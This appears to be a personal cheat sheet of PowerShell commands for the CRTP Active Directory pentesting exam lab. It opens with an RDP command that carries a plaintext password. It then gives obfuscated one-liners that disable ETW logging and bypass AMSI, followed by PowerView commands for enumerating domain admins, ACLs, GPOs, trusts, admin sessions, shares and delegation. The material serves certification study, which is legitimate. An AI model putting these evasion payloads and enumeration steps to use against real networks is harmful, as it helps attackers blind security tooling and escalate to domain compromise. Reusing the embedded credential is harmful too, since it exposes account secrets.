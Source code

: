 ```powershell
xfreerdp3 /u:studentuser /p:7X9Ymp2gheTEi4b0wUWRk /v:172.16.100.1 /dynamic-resolution /drive:AD,/home/adot/certifications/crtp/exam
```

```powershell
net use A: \\TSCLIENT\AD

A:\tools\InviShell\RunWithRegistryNonAdmin.bat

[Reflection.Assembly]::"l`o`AdwIThPa`Rti`AlnamE"(('S'+'ystem'+'.C'+'ore'))."g`E`TTYPE"(('Sys'+'tem.Di'+'agno'+'stics.Event'+'i'+'ng.EventProv'+'i'+'der'))."gET`FI`eLd"(('m'+'_'+'enabled'),('NonP'+'ubl'+'ic'+',Instance'))."seTVa`l`Ue"([Ref]."a`sSem`BlY"."gE`T`TyPE"(('Sys'+'tem'+'.Mana'+'ge'+'ment.Aut'+'o'+'mation.Tracing.'+'PSEtwLo'+'g'+'Pro'+'vi'+'der'))."gEtFIe`Ld"(('e'+'tw'+'Provid'+'er'),('N'+'o'+'nPu'+'b'+'lic,Static'))."gE`Tva`lUe"($null),0)
```

```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + (("{1}{0}"-f'1','blE:')+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a'))  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

```powershell
copy A:\tools\* .
```

```powershell
Import-Module .\PowerView.ps1, .\Find-PSRemotingLocalAdminAccess.ps1, .\PowerUp.ps1, .\Invoke-SessionHunter.ps1
```

Basic enumeration
```powershell
([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).Name
$env:userdomain

Get-DomainUser | select cn

Get-DomainComputer | select dnshostname

Get-DomainGroupMember -Identity "Domain Admins" -recurse | select membername
Get-DomainGroupMember -Identity "Enterprise Admins" -recurse -domain moneycorp.local | select membername
```

ACLs - Perform on current user + groups user is in
```powershell
Get-DomainObjectAcl -SamAccountName student1 -ResolveGUIDs

Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "student548"}
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDP Users"}

Get-DomainObjectAcl -SearchBase "LDAP://CN=RDP Users,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local" -ResolveGUIDs -Verbose
```

OUs and GPOs
```powershell
Get-DomainOU -properties name
(Get-DomainOU -identity Applocked).distinguishedname | %{Get-DomainComputer -SearchBase $_} | select name

Get-DomainGPO | select displayname
Get-DomainGPO -ComputerIdentity dcorp-std548
```

Domain and Forest trusts
```powershell
Get-DomainTrust
Get-ForestDomain -Forest <forest>
```

Local Admin access?
```powershell
Find-PSRemotingLocalAdminAccess
```

Create a servers.txt file
```powershell
Get-DomainComputer | select cn
```

Find DA sessions
```powershell
Invoke-SessionHunter -NoPortScan -Targets C:\Users\Public\servers.txt
```

Find shares
```powershell
Import-Module .\PowerHuntShares.psm1
```

```powershell
Invoke-HuntSMBShares -NoPing -OutputDirectory C:\Users\Public -HostList C:\Users\Public\servers.txt

Invoke-ShareFinder -Verbose
```

Unconstrained delegation?
```powershell
Get-DomainComputer -UnConstrained
```

Constrained delegation?
```powershell
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
```
**REVIEW WHAT PRIVILEGES A USER HAS AFTER COMPROMISE**